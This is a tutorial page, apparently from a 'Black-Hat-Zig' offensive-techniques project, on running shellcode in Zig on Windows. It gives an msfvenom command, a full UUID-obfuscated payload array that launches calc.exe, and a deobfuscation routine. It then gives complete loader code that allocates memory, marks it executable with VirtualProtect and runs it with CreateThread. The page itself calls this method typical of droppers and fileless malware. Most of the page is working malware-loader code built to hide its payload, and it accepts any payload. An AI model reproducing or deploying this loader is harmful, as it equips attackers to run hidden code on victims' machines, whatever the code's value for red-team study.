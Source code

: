 # Execute Via Shellcode

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Basic-Payload-Management/Payload-Execution/shellcode)

Executing payloads as shellcode involves storing the machine code directly in a
buffer, allocating executable memory, and then jumping to that buffer. The code
here uses the ZYPE tool to generate encrypted shellcode that is decoded at
runtime. After calling Windows APIs such as `VirtualAlloc` and `CreateThread`,
the program transfers control to the shellcode, effectively running the payload
without dropping any additional files. This direct execution model is common in
many droppers and fileless malware samples.

## What Is Shellcode?

Shellcode is a sequence of machine instructions, that are designed to be injected into a running program to execute a specific payload.
It often spawns a shell(`cmd.exe` or `powershell.exe` in windows, `/bin/sh` in linux).

## Code Walkthrough

The payload array and deobfuscation function is generated by [ZYPE](https://github.com/cx330blake/zype), you should go install that tool if you haven't. That will make generating encrypted/obfuscated payload to be much more easier.

Declaring all the constants:

```zig title="main.zig"
const std = @import("std");
const windows = std.os.windows;
const print = std.debug.print;

// Windows API types
const PVOID = *anyopaque;
const DWORD = windows.DWORD;
const SIZE_T = usize;
const PBYTE = [*]u8;

// Memory protection constants
const MEM_COMMIT = 0x1000;
const MEM_RESERVE = 0x2000;
const PAGE_READWRITE = 0x04;
const PAGE_EXECUTE_READWRITE = 0x40;

// Windows API functions
extern "kernel32" fn GetCurrentProcessId() callconv(.C) DWORD;
extern "kernel32" fn GetLastError() callconv(.C) DWORD;
extern "kernel32" fn VirtualAlloc(?PVOID, SIZE_T, DWORD, DWORD) callconv(.C) ?PVOID;
extern "kernel32" fn VirtualProtect(PVOID, SIZE_T, DWORD, *DWORD) callconv(.C) windows.BOOL;
extern "kernel32" fn CreateThread(?windows.HANDLE, SIZE_T, *const fn (?PVOID) callconv(.C) DWORD, ?PVOID, DWORD, ?*DWORD) callconv(.C) ?windows.HANDLE;
extern "kernel32" fn HeapFree(windows.HANDLE, DWORD, PVOID) callconv(.C) windows.BOOL;
extern "kernel32" fn GetProcessHeap() callconv(.C) windows.HANDLE;
```

UUID array is generated from the following command (for more information about zype: <https://github.com/cx330blake/zype>):

```powershell
1. msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
2. zype -f calc.bin -m uuid
```

This generates us 17 UUID strings and are stored in the `UUID_ARRAY`

```zig title="main.zig"
const UUID_ARRAY: [17][]const u8 = [_][]const u8{
    "E48348FC-E8F0-00C0-0000-415141505251",
    "D2314856-4865-528B-6048-8B5218488B52",
    "728B4820-4850-B70F-4A4A-4D31C94831C0",
    "7C613CAC-2C02-4120-C1C9-0D4101C1E2ED",
    "48514152-528B-8B20-423C-4801D08B8088",
    "48000000-C085-6774-4801-D0508B481844",
    "4920408B-D001-56E3-48FF-C9418B348848",
    "314DD601-48C9-C031-AC41-C1C90D4101C1",
    "F175E038-034C-244C-0845-39D175D85844",
    "4924408B-D001-4166-8B0C-48448B401C49",
    "8B41D001-8804-0148-D041-5841585E595A",
    "59415841-5A41-8348-EC20-4152FFE05841",
    "8B485A59-E912-FF57-FFFF-5D48BA010000",
    "00000000-4800-8D8D-0101-000041BA318B",
    "D5FF876F-E0BB-2A1D-0A41-BAA695BD9DFF",
    "C48348D5-3C28-7C06-0A80-FBE07505BB47",
    "6A6F7213-5900-8941-DAFF-D563616C6300",
};

const NUMBER_OF_ELEMENTS: usize = 17;
```

Manually parsing the UUID strings such that they match Windows `UuidFromStringA` behavior (converting each UUID string into a 16-byte binary representation, removing hyphens, correcting endianness)

```zig title="main.zig"
fn parseUuidManual(uuid_str: []const u8, buffer: []u8) !void {
    if (buffer.len < 16) return error.BufferTooSmall;

    // UUID format: XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
    // Split into parts: [8]-[4]-[4]-[4]-[12] = 32 hex chars + 4 hyphens

    var clean_hex = std.ArrayList(u8).init(std.heap.page_allocator);
    defer clean_hex.deinit();

    // Remove hyphens to get 32 hex characters
    for (uuid_str) |c| {
        if (c != '-') {
            try clean_hex.append(c);
        }
    }

    if (clean_hex.items.len != 32) return error.InvalidUuidLength;

    // Parse UUID components with correct endianness
    // Windows UUID structure (matches GUID):
    // - First 4 bytes (data1): Little-endian 32-bit
    // - Next 2 bytes (data2): Little-endian 16-bit
    // - Next 2 bytes (data3): Little-endian 16-bit
    // - Last 8 bytes (data4): Big-endian bytes

    const hex_chars = clean_hex.items;

    // Data1 (4 bytes, little-endian)
    const data1 = try std.fmt.parseInt(u32, hex_chars[0..8], 16);
    buffer[0] = @intCast(data1 & 0xFF);
    buffer[1] = @intCast((data1 >> 8) & 0xFF);
    buffer[2] = @intCast((data1 >> 16) & 0xFF);
    buffer[3] = @intCast((data1 >> 24) & 0xFF);

    // Data2 (2 bytes, little-endian)
    const data2 = try std.fmt.parseInt(u16, hex_chars[8..12], 16);
    buffer[4] = @intCast(data2 & 0xFF);
    buffer[5] = @intCast((data2 >> 8) & 0xFF);

    // Data3 (2 bytes, little-endian)
    const data3 = try std.fmt.parseInt(u16, hex_chars[12..16], 16);
    buffer[6] = @intCast(data3 & 0xFF);
    buffer[7] = @intCast((data3 >> 8) & 0xFF);

    // Data4 (8 bytes, big-endian - byte by byte)
    for (0..8) |i| {
        const hex_pair = hex_chars[16 + i * 2 .. 16 + i * 2 + 2];
        buffer[8 + i] = try std.fmt.parseInt(u8, hex_pair, 16);
    }
}
```

This functions iterates over the UUID array to reconstruct the original shell. It allocates a buffer to hold the deobfuscated payload (17 UUIDs x 16 bytes = 272 bytes)

```zig title="main.zig"
fn uuidDeobfuscation(uuid_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    const buffer_size = uuid_array.len * 16;
    const buffer = try allocator.alloc(u8, buffer_size);

    for (uuid_array, 0..) |uuid_str, i| {
        const offset = i * 16;
        parseUuidManual(uuid_str, buffer[offset .. offset + 16]) catch |err| {
            std.debug.print("[!] Failed to parse UUID[{}]: \"{s}\" - Error: {}\n", .{ i, uuid_str, err });
            allocator.free(buffer);
            return err;
        };
    }

    return buffer;
}
```

Steps to follow in the main fucntion:

- Deobfuscating the UUID array into a shellcode buffer

    ```zig title="main.zig"
    const p_deobfuscated_payload = uuidDeobfuscation(&UUID_ARRAY, allocator) catch |err| {
        print("[!] uuidDeobfuscation Failed With Error: {}\n", .{err});
        std.process.exit(1);
    };
    defer allocator.free(p_deobfuscated_payload);

    print("[+] DONE !\n", .{});

    const s_deobfuscated_size = p_deobfuscated_payload.len;
    print("[i] Deobfuscated Payload At : 0x{x} Of Size : {d} \n", .{ @intFromPtr(p_deobfuscated_payload.ptr), s_deobfuscated_size });

    waitForEnter("[#] Press <Enter> To Allocate ... ");
    ```

- Allocating memory with `VirtualAlloc` and copying the deobfuscated shell code to the allocated memory

    ```zig title="main.zig"
    const p_shellcode_address = VirtualAlloc(null, s_deobfuscated_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) orelse {
        print("[!] VirtualAlloc Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    print("[i] Allocated Memory At : 0x{x} \n", .{@intFromPtr(p_shellcode_address)});

    waitForEnter("[#] Press <Enter> To Write Payload ... ");

    // Copy the payload to allocated memory
    @memcpy(@as([*]u8, @ptrCast(p_shellcode_address))[0..s_deobfuscated_size], p_deobfuscated_payload);

    // Clear the original payload buffer
    @memset(@as([*]u8, @ptrCast(p_deobfuscated_payload.ptr))[0..s_deobfuscated_size], 0);
    ```

- Changing memory protection to executable using `VirtualProtect`

    ```zig title="main.zig"
    var dw_old_protection: DWORD = 0;
    if (VirtualProtect(p_shellcode_address, s_deobfuscated_size, PAGE_EXECUTE_READWRITE, &dw_old_protection) == 0) {
        print("[!] VirtualProtect Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    }

    waitForEnter("[#] Press <Enter> To Run ... ");
    ```

- Creating a new thread to execute shell code using `CreateThread`

    ```zig title="main.zig"
    const thread_handle = CreateThread(null, 0, @ptrCast(p_shellcode_address), null, 0, null) orelse {
        print("[!] CreateThread Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    _ = thread_handle; // Suppress unused variable warning

    print("[+] Calculator should launch now!\n", .{});
    waitForEnter("[#] Press <Enter> To Quit ... "); // Pause the execution.

    return;
    ```

**NOTE:** If we don't use `waitForEnter()` here, the main thread might have high possibility to exit before the shellcode being executed. So here we use that function to pause the execution. In practice, we should use `WaitForSingleObject()` function from Windows API to wait until the new thread to finish or the thread it timed out. So that the main thread will not exit before the shellcode execution.

```zig title="main.zig"
// Wait for Enter key by reading entire line
fn waitForEnter(message: []const u8) void {
    print("{s}", .{message});
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}
```
